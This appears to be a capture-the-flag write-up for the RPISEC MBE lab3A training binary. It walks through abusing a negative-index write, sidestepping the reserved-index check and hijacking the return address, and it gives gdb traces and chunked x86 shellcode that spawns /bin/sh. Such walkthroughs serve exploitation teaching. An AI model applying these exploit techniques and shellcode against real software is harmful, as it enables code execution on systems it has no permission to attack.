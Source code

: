 Lab3A solution.

These challenges are hosted on https://github.com/RPISEC/MBE. The binaries can be download from 
https://github.com/RPISEC/MBE/releases/download/v1.1_release/MBE_release.tar.gz

I consider lab3A to be harder than even the projects. This challenge involves exploiting a number storage application, bypassing
few checks and creating custom shellcode to adhere to the constraints. Here is the source code of the file:

https://github.com/RPISEC/MBE/blob/master/src/lab03/lab3A.c


So, the program uses an array of maximum size 100 where it stores our input. But look closely at the arguments passed to the 
store_number function. The array is being handled by a pointer. So, if we make the pointer point to any memory address,
we can write anything anywhere. Also, input is taken using get_unum() which does not take into consideration the length of
the number we pass. So, we can pass 0xbffff0000 as number converted to decimal and it will be written as 0xbffff000.


gdb-peda$ r
Starting program: /root/MBE_release/levels/lab03/lab3A 
----------------------------------------------------
  Welcome to quend's crappy number storage service!  
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   quend has reserved some storage for herself :>    
----------------------------------------------------

Input command: store
 Number: 1932472168
 Index: 1



[-------------------------------------code-------------------------------------]
   0x80489b1 <store_number+154>:    mov    eax,DWORD PTR [ebp+0x8]
   0x80489b4 <store_number+157>:    add    edx,eax
   0x80489b6 <store_number+159>:    mov    eax,DWORD PTR [ebp-0xc]
=> 0x80489b9 <store_number+162>:    mov    DWORD PTR [edx],eax
   0x80489bb <store_number+164>:    mov    eax,0x0
   0x80489c0 <store_number+169>:    leave  
   0x80489c1 <store_number+170>:    ret    
   0x80489c2 <read_number>:    push   ebp
[------------------------------------stack-------------------------------------]
0000| 0xbffff1f0 --> 0x8048cdd (" Index: ")

mov [edx], eax

eax contains our input value converted to hex, and edx is basically index*4 + data[0]. So, if we supply index < 0, it will compute

location_to_write = data[0] - index*4.

Now, I know the address of EBP at that point. Analyse the leave ret instruction. Leave is basically
mov esp, ebp;
pop ebp;

ret = pop eip

So, if I write anything at ebp + 4, then it will be popped into eip. (Stack grows towards higher memory so ebp + 4)
Now, we need to find the difference between data[0] and ebp and divide by 4 bytes.

gdb-peda$ p/x $ebp
$2 = 0xbffff218

So ebp is at 0xbffff218. data[0] is at 0xbffff238

Difference = 0x20 = 32 bytes/
So, index = 32/4 = 8

So we will overwrite at index = -7 to get to EBP + 4

gdb-peda$ r

Input command: store
 Number: 213312
 Index: -7
 *** ERROR! ***
   This index is reserved for quend!
 *** ERROR! ***

This is the protection mechanism. 

Every index which is a multiple of 3 is reserved.
(-7) = (FFFFFFFFFFFFFFF9) in hex, which is a multiple of 3.

So, we cannot overwrite function return value.

Lets see the main function.

The disassembly of the last few lines is : 

 0x08048c26:             call   0x8048780 <memset@plt>
   0x08048c2b <+537>:    jmp    0x8048aec <main+218>
   0x08048c30 <+542>:    mov    eax,0x0
   0x08048c35 <+547>:    lea    esp,[ebp-0x8]
   0x08048c38 <+550>:    pop    ebx
   0x08048c39 <+551>:    pop    edi
   0x08048c3a <+552>:    pop    ebp
   0x08048c3b <+553>:    ret    
End of assembler dump.
gdb-peda$ 

Lets get to that offset.
So, I need to write my value at some places off the esp. 12 bytes will be popped and then my input will come. Let's hope this is not divisible by 3 :). Then, I will simply quit the program.

After calculations, I see that it is 436 bytes away from data[0].
Offset = 109

Lets test it out.

gdb-peda$ b *0x08048c3b
Breakpoint 2 at 0x8048c3b
gdb-peda$ c
Continuing.
 Completed store command successfully
Input command: quit

 [----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0x74 ('t')
EDX: 0xbffff3c8 ("quit")
ESI: 0x1 
EDI: 0xb7fb5000 --> 0x1b2db0 
EBP: 0x0 
ESP: 0xbffff3ec --> 0x7b ('{')
EIP: 0x8048c3b (<main+553>:    ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048c38 <main+550>:    pop    ebx
   0x8048c39 <main+551>:    pop    edi
   0x8048c3a <main+552>:    pop    ebp
=> 0x8048c3b <main+553>:    ret    
   0x8048c3c:    xchg   ax,ax
   0x8048c3e:    xchg   ax,ax
   0x8048c40 <__libc_csu_init>:    push   ebp
   0x8048c41 <__libc_csu_init+1>:    push   edi
[------------------------------------stack-------------------------------------]
0000| 0xbffff3ec --> 0x7b ('{')
0004| 0xbffff3f0 --> 0x1 
0008| 0xbffff3f4 --> 0xbffff488 --> 0x0 
0012| 0xbffff3f8 --> 0xbffff538 --> 0x0 
0016| 0xbffff3fc --> 0x0 
0020| 0xbffff400 --> 0x0 
0024| 0xbffff404 --> 0x0 
0028| 0xbffff408 --> 0xb7fb5000 --> 0x1b2db0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value



Breakpoint 2, 0x08048c3b in main ()
gdb-peda$ x/x $esp
0xbffff3ec:    0x0000007b
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.

 [----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0x74 ('t')
EDX: 0xbffff3c8 ("quit")
ESI: 0x1 
EDI: 0xb7fb5000 --> 0x1b2db0 
EBP: 0x0 
ESP: 0xbffff3f0 --> 0x1 
EIP: 0x7b ('{')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x7b
[------------------------------------stack-------------------------------------]
0000| 0xbffff3f0 --> 0x1 
0004| 0xbffff3f4 --> 0xbffff488 --> 0x0 
0008| 0xbffff3f8 --> 0xbffff538 --> 0x0 
0012| 0xbffff3fc --> 0x0 
0016| 0xbffff400 --> 0x0 
0020| 0xbffff404 --> 0x0 
0024| 0xbffff408 --> 0xb7fb5000 --> 0x1b2db0 
0028| 0xbffff40c --> 0xb7fffc04 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000007b in ?? ()

So we hit EIP. Now, let's see what we can do.

We cannot overwrite GOT addresses coz they all start with b7 (Protection Mechanism 2).

After some thinking, I thought shellcode.
We need a custom shellcode which jumps after every 8 bytes and executes /bin//sh.
A basic framework of the /bin/sh shellcode can be found at http://shell-storm.org/shellcode/files/shellcode-827.php

Here is the problem : jmp 0xbffff240 or any jmp <address> takes 5 bytes in total!! See here

0:  e9 3c f2 ff bf          jmp    0xbffff240

We need to find another way of doing this which consumes less bytes.

After lunch, this idea struck me.

We could write down as many number of values we want on the stack, and then call pop pop ret. pop into any useless register (say esi) and then either ret or jmp esi. (Of course multiple of 3 problem on stack too)

pop jmp/ret takes 2-3 bytes only. That's amazing.
So, we only need to write the addresses we should jmp to


Here are my assembly instructions for the same : 

push   0x68732f2f
pop ecx   ; ecx --> //sh
nop
ret

push   0x6e69622f
pop edx   ; edx --> /bin
pop esi   ; pop garbage
ret

xor eax, eax
pop esi   ; pop MEM_JMP1 from stack into esi
pop edi   ; pop the 3rd garbage value off the stack
pop edi   ; pop MEM_JMP2 from stack into edi  
jmp esi

push eax
push ecx
push edx
mov ebx, esp
jmp edi

pop edi
pop edi
pop edi
pop edi
jmp edi

xor ecx, ecx
mov al, 0xb
int 0x80
